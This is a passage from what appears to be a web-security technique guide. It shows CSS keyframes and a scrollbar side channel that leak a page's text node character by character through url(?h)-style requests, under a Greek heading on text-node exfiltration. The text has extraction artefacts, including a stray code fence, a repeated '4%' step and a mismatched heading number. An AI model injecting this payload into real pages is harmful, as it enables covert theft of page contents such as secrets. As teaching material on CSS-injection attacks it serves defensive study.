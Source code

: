 ````css
40% { font-family: has_H, rest; --leak: url(?h); }
41% { font-family: rest }
45% { font-family: has_I, rest; --leak: url(?i); }
46% { font-family: rest; }
50% { font-family: has_J, rest; --leak: url(?j); }
51% { font-family: rest; }
55% { font-family: has_K, rest; --leak: url(?k); }
56% { font-family: rest; }
60% { font-family: has_L, rest; --leak: url(?l); }
61% { font-family: rest; }
65% { font-family: has_M, rest; --leak: url(?m); }
66% { font-family: rest; }
70% { font-family: has_N, rest; --leak: url(?n); }
71% { font-family: rest; }
75% { font-family: has_O, rest; --leak: url(?o); }
76% { font-family: rest; }
80% { font-family: has_P, rest; --leak: url(?p); }
81% { font-family: rest; }
85% { font-family: has_Q, rest; --leak: url(?q); }
86% { font-family: rest; }
90% { font-family: has_R, rest; --leak: url(?r); }
91% { font-family: rest; }
95% { font-family: has_S, rest; --leak: url(?s); }
96% { font-family: rest; }
}

/* increase width char by char, i.e. add new char to prefix */
@keyframes loop {
0% { width: 0px }
1% { width: 20px }
2% { width: 40px }
3% { width: 60px }
4% { width: 80px }
4% { width: 100px }
```css
5% { width: 120px }
6% { width: 140px }
7% { width: 0px }
}

div::-webkit-scrollbar {
background: blue;
}

/* side-channel */
div::-webkit-scrollbar:vertical {
background: blue var(--leak);
}
````

### Εξυπνοποίηση κόμβου κειμένου (III): διαρροή του συνόλου χαρακτήρων με ένα προεπιλεγμένο γραμματοσειρά κρύβοντας στοιχεία (χωρίς την ανάγκη εξωτερικών πόρων) <a href="#text-node-exfiltration-ii-leaking-the-charset-with-a-default-font" id="text-node-exfiltration-ii-leaking-the-charset-with-a-default-font"></a>
